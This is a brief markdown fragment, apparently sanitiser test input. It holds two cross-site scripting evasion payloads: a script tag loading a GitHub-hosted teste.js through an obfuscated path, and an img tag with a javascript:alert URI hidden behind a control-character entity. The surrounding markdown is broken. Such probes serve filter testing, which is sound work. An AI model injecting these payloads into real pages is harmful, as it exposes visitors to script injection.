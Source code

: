 ![

<SCRIPT/SRC="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" x:link="width:\u0061lert(1);" />
<img SRC=" &#14; javascript:alert('XSS');">

](()

